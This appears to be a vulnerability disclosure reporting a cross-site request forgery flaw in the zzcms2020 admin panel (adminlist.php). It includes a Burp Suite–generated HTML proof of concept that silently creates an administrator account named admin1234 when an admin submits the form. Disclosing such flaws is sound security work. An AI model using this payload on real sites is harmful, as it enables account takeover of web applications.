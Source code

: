 
* version: zzcms2020
* source: http://www.zzcms.net/about/6.htm
* issue: csrf

## Position

in `zzcms2020/admin/adminlist.php line 129`：



The `function add()` dosen't check the  Referer header.

![zzcms2020_csrf_1](https://github.com/779789571/zzcms/blob/main/zzcms2020_csrf_1.png)



## PoC
generate a csrf Poc by burpsuite.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://zzcms.com/admin/adminlist.php?do=add" method="POST">
      <input type="hidden" name="groupid" value="1" />
      <input type="hidden" name="admins" value="admin1234" />
      <input type="hidden" name="passs" value="admin123" />
      <input type="hidden" name="passs2" value="admin123" />
      <input type="hidden" name="Submit" value="æ&#143;&#144;äº&#164;" />
      <input type="hidden" name="action" value="add" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```
if the admin click the button,the attack will trigger and add a admin account named admin1234.

![zzcms2020_csrf_2](https://github.com/779789571/zzcms/blob/main/zzcms2020_csrf_5.png)

triggered.
![zzcms2020_csrf_2](https://github.com/779789571/zzcms/blob/main/zzcms2020_csrf_2.png)


